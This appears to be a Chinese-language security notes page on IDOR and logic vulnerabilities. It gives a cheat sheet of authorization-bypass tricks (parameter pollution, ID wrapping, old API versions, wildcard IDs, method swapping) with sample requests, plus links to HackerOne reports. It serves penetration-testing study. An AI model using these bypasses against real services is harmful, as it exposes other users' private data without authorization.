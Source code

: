 - [逻辑漏洞概述](#逻辑漏洞概述)
- [绕过授权](#绕过授权)
  - [漏洞报告 (Hackerone)](#漏洞报告-hackerone)
- [接口泄露 #TODO](#接口泄露-todo)
  - [一个登录框可以做什么](#一个登录框可以做什么)
- [越权漏洞 #TODO](#越权漏洞-todo)

**相关链接**

- https://cn-sec.com/archives/1171492.html
- https://vickieli.medium.com/intro-to-idor-9048453a3e5d

## 逻辑漏洞概述

IDOR，Insecure Direct Object reference，即"不安全的直接对象引用"，场景为基于用户提供的输入对象进行访问时，未进行权限验证。IDOR漏洞其实在越权（Broken Access Control）漏洞的范畴之内，也可以说是逻辑漏洞，或是访问控制漏洞，国内通常被称为越权漏洞。

## 绕过授权

```
在末尾添加参数
HTTP 参数污染
如果站点是用 Ruby 构建的，则将.json 添加到末尾
测试历史 API 版本
用数组嵌套 ID
用 JSON 对象嵌套 ID:
参数污染
```

- 在末尾添加参数

```
GET /api_v1/messages --> 401
GET /api_v1/messages?user_id=victim_uuid --> 200
```

- HTTP 参数污染

```
GET /api_v1/messages?user_id=VICTIM_ID --> 401 Unauthorized
GET /api_v1/messages?user_id=ATTACKER_ID&user_id=VICTIM_ID --> 200 OK

GET /api_v1/messages?user_id=YOUR_USER_ID[]&user_id=ANOTHER_USERS_ID[]
```

- 如果站点是用 Ruby 构建的，则将.json 添加到末尾

```
/user_data/2341 --> 401 Unauthorized
/user_data/2341.json --> 200 OK
```

- 测试历史 API 版本

```
/v3/users_data/1234 --> 403 Forbidden
/v1/users_data/1234 --> 200 OK
```

- 用数组嵌套 ID

```
{“id”:111} --> 401 Unauthriozied
{“id”:[111]} --> 200 OK
```

- 用 JSON 对象嵌套 ID

```
{“id”:111} --> 401 Unauthriozied
{“id”:{“id”:111}} --> 200 OK
```

- 参数污染

```
POST /api/get_profile
Content-Type: application/json
{“user_id”:<legit_id>,”user_id”:<victim’s_id>}
```

- 尝试对base64,etc,md5加密的参数解密

```
GET /GetUser/dmljdGltQG1haWwuY29t HTTP/1.1
Host: example.com
...
dmljdGltQG1haWwuY29t => victim@mail.com
```

- 尝试用数字替换 UUID

```
GET /file?id=90ri2-xozifke-29ikedaw0d HTTP/1.1
GET /file?id=302
```

- 更换HTTP请求方式

```
GET /api/v1/users/profile/111 HTTP/1.1
POST /api/v1/users/profile/111 HTTP/1.1
OPTIONS * HTTP/1.1
```

- 使用通配符替换ID

```
GET /api/users/111 HTTP/1.1
GET /api/users/* HTTP/1.1
GET /api/users/% HTTP/1.1
GET /api/users/_ HTTP/1.1
GET /api/users/. HTTP/1.1
```

- 尝试使用一个通配符(*)来代替 ID。这种方法很少见，但是有时候是有效的
- 如果ID参数为数字，请确保通过大量的数字进行测试，而不是通过猜测
- 如果 URI 类似于/api/users/myinfo，请检查/api/admins/myinfo
- GET/POST/PUT 用 GET/POST/PUT 替换请求方法
- 使用BurpSuite autorize拓展
- 如果这些都不起作用，那就使用你所能想到的方式，到处去看看

### 漏洞报告 (Hackerone)

- [IDOR to delete images from other stores](https://hackerone.com/reports/404797)
- [IDOR in changing shared file name](https://hackerone.com/reports/547663)
- [User uploaded portfolio files can be accessed by any user even after deleted](https://hackerone.com/reports/300179)
- [IDOR and statistics leakage in Orders](https://hackerone.com/reports/544329)
- [I.D.O.R To Order,Book,Buy,reserve On YELP FOR FREE (UNAUTHORIZED USE OF OTHER USER&#39;S CREDIT CARD)](https://hackerone.com/reports/391092)
- [IDOR allow access to payments data of any user](https://hackerone.com/reports/751577)
- [IDOR allow to extract all registered email](https://hackerone.com/reports/302485)
- [IDOR at https://account.mackeeper.com/at/load-reports/profile/profile_id leaks information about devices/licenses](https://hackerone.com/reports/783117)
- [IDOR bug to See hidden slowvote of any user even when you dont have access right](https://hackerone.com/reports/661978)
- [IDOR on update user preferences](https://hackerone.com/reports/854290)
- [idor on upload profile functionality](https://hackerone.com/reports/741683)
- [IDOR to view User Order Information](https://hackerone.com/reports/287789)
- [IDOR with Geolocation data not stripped from images](https://hackerone.com/reports/906907)
- [Replace other user files in Inbox messages](https://hackerone.com/reports/322661)

## 接口泄露 #TODO

### 一个登录框可以做什么

接口中的信息泄露，利用接口

![图 2](../../../@attachment/images/Security/Web安全/逻辑漏洞_1661087136881.png)

![图 3](../../../@attachment/images/Security/Web安全/逻辑漏洞_1661087222310.png)

接口 FUZZ 模糊测试可能包含的接口。

![图 4](../../../@attachment/images/Security/Web安全/逻辑漏洞_1661087247927.png)

![图 5](../../../@attachment/images/Security/Web安全/逻辑漏洞_1661087592488.png)

## 越权漏洞 #TODO

**相关链接**

- https://www.freebuf.com/vuls/223500.html
